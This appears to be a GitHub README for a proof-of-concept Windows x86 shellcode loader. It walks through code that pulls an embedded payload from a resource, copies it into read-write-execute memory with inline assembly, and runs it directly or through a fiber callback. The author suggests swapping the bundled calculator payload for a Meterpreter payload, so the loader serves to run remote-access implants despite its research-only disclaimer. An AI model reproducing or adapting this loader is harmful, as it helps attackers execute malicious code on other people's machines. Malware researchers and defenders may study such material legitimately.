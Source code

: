 # Create_Thread-Inline_Assembly_x86_Fibers
This POC provides the ability to execute **x86 shellcode** in the form of a .bin file based on **x86 inline assembly and execution over fibers**.
The POC includes a calc.bin, which executes the Windows x86 calculator and can be replaced for example by a **x86 meterpreter.bin payload**.

# **Disclaimer**
The content and all code examples in this article are for research purposes only and must not be used in an unethical context! The code used is not new and I make no claim to it. Most of the code comes, as so often, from the **ired.team, thank you @spotheplanet for your brilliant work and sharing it with us all!**

# **Fibers?**
Fibers are a lightweight threading mechanism provided by Windows, which allow for cooperative multitasking within a single process. Unlike threads, which are managed by the operating system and have their own system resources (such as a separate stack and register set), fibers share the same system resources as the parent thread and switch between tasks using their own stack and register set. This makes fibers faster and more efficient than threads for certain types of tasks.

# **Description**
This code part initializes a handle (HRSRC) to a binary resource in the executable file. The FindResource() function locates the resource based on its name (IDR_CALC_BIN1) and type (CALC_BIN). The NULL parameter specifies the module instance handle, which is not needed in this case since the resource is located in the same executable file.
``` HRSRC codeResource;
    codeResource = FindResource(NULL, MAKEINTRESOURCE(IDR_CALC_BIN1), L"CALC_BIN");
```

These lines determine the size of the resource data in bytes, load the resource data into memory, and lock the data in place so that it can be accessed by the program.
``` DWORD codeSize;
    codeSize = SizeofResource(NULL, codeResource);
    HGLOBAL codeResourceData;
    codeResourceData = LoadResource(NULL, codeResource);
    void* codeData;
    codeData = LockResource(codeResourceData);
```

This code part allocates a region of memory that is both committed and reserved with the PAGE_EXECUTE_READWRITE protection flag. This means that the memory is both readable and writable, but also executable. The VirtualAlloc() function is used to allocate a block of memory, and the NULL parameter specifies that the block should be allocated in the process's default address space.
``` void* exec;
    exec = VirtualAlloc(NULL, codeSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
```

This code part uses assembly language to copy the resource data to the executable memory. The mov instruction moves data from one register to another, and rep movsb copies data from the source address to the destination address.
```    
    __asm {
        mov esi, codeData;
        mov edi, exec;
        mov ecx, codeSize;
        cld;
        rep movsb;
    }
```

This code part uses assembly language to execute the code in the newly allocated memory. The mov instruction loads the address of the executable memory into the EBX register, and call ebx calls the code at that address.
```    
    __asm {
        mov ebx, exec;
        call ebx;
    }
```

This code part defines a fiber callback function called FiberStart(). The function takes a single LPVOID parameter, which is a void pointer that can be used to pass data to the function. The function casts the lpParameter parameter to a shellcode function pointer type, and then calls the shellcode function.
```// Fiber callback function
VOID CALLBACK FiberStart(LPVOID lpParameter)
{
    // Cast the parameter to the shellcode function pointer type
    typedef void(*ShellcodeFn)();
    ShellcodeFn shellcode = (ShellcodeFn)lpParameter;

    // Call the shellcode function
    shellcode();
}
```
This code part frees the executable memory that was allocated earlier using the VirtualFree() function with the MEM_RELEASE flag. The 0 parameter specifies the size of the memory region to free, and return 0 ends the program.
```    
    VirtualFree(exec, 0, MEM_RELEASE);

    return 0;
```
